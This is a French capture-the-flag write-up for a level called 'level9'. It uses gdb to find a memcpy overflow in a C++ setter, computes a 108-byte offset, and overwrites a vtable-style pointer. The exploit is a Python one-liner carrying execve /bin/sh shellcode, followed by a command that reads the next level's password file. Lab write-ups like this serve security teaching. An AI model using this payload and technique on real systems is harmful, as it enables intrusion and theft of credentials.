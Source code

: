 gdb level9

info function

on apercoit des nouvelles fonctions et des call en CPP 

N::N(int)
N::setAnnotation(char*)
N::operator+(N&)
N::operator-(N&)

ligne 131 dans le gdb on apercoit un setteur "setAnnotation"

ce meme setteur fait un memcpy on va essayer de faire un overflow avec 

run'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag'

on va regarder ou ca segfault grace a : info register eax

on met le eax : 0x41366441
dans le buffer overflow helper et il nous informe que le offset se situe a 108

on va mettre un breakpoint au moment ou l'annotation est appele pour recuperer l'adresse juste avant le segfault

b *main+136 

run 'AAAA'
x $eax

0x804a00c cest l'adresse du buffer

ce qu'on va faire c'est qu'on va aller a esp+0x10 en faisant 0x804a00c + 4 = 0x0804a010

pourquoi ? 

Le programme lit une adresse à [esp+0x10], puis la suit deux fois

On fait un deferencement (une fausse structure à [esp+0x10] qui, en mémoire, contient l’offset 0 : un pointeur vers le début du shellcode)

on va remplacer la valeur par l'overflow qu'on veut faire donc 108, en mettant l'adresse, le code, le padding et l'adresse du buffer ca nous donne 108 + 4

./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + 83 * "A" + "\x0c\xa0\x04\x08"')

cat /home/user/bonus0/.pass